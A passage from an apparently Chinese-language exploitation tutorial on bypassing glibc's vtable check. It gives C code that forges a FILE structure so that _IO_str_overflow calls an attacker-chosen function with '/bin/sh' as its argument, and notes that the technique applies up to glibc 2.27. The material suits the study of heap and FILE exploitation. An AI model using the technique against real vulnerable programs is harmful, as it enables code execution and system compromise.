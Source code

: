 ```c
    // 又要满足fp->_flags & _IO_USER_BUF为假，而_IO_USER_BUF的值为1，因此最后一个字节也为0
    *(short*)fp = 0;

    // 虚表指向_IO_str_jumps
    *(size_t*)((char*)fp + 0xd8) = *(size_t*)(((char*)fp + 0xd8)) + 0xc0;

    // 此时偏移0xe0处是要执行的函数_IO_str_overflow
    *(size_t*)((char*)fp + 0xe0) = (size_t)winner;

    // 函数参数：new_size = 2 * (fp->_IO_buf_end - fp->_IO_buf_base) + 100
    // 为了方便我们一般直接设置fp->_IO_buf_base为0，方便计算，那么2 * fp->_IO_buf_end + 100 需要等于函数参数例如/bin/sh的地址
    // 换算一下也就是 _IO_buf_end = (bin_sh_addr - 100) / 2，注意当bin_sh_addr为奇数的时候向下取整，因此地址为奇数的时候直接将其+1
    *(size_t*)((char*)fp + 0x38) = 0;
    char* code = "/bin/sh\x00";
    size_t address = (size_t)code % 2 == 0 ? (size_t)code : (size_t) code + 1; 
    *(size_t*)((char*)fp + 0x40) = (size_t)((address - 100) / 2);
    
    // 下一个条件： 2*(fp->_IO_buf_end - fp->_IO_buf_base) + 100不能为负数，由于其为函数参数上面已经构造，不再需要管

    // 下一个条件：(pos = fp->_IO_write_ptr - fp->_IO_write_base) >= ((fp->_IO_buf_end - fp->_IO_buf_base) + flush_only(1))
    // 我们已经知道fp->_IO_buf_base为0，_IO_buf_end为(bin_sh_addr - 100)/2
    // 那么在同样设置fp->_IO_write_base为0的情况下，需要fp->_IO_write_ptr >= (bin_sh_addr - 100)/2 + 1
    *(size_t*)((char*)fp + 0x20) = 0;
    *(size_t*)((char*)fp + 0x28) = (size_t)((address - 100) / 2 + 1);
    
    

    exit(1);
    // // 最终会在exit、return、以及libc执行abort调用。
    return 0;
}
```

## 后记

绕过`vtable check`的方法除了`_IO_str_jumps`虚表，`_IO_wstr_jumps`虚表也是同样的。`_IO_wstr_jumps`和`_IO_str_jumps`功能基本一致，只是`_IO_wstr_jumps`是处理`wchar`的。

上面提到了这些`vtable check`的绕过方法都只是在`glibc2.27`及以下可用，因为到了`glibc2.28`中，`_IO_strfile`中的`_allocate_buffer`和`_free_buffer`已经被简单粗暴地用`malloc`和`free`来替换了，自然也就没有函数指针用于覆盖。

参考链接：

[raycp师傅的IO_FILE vtable绕过](https://xz.aliyun.com/t/5579#toc-1)
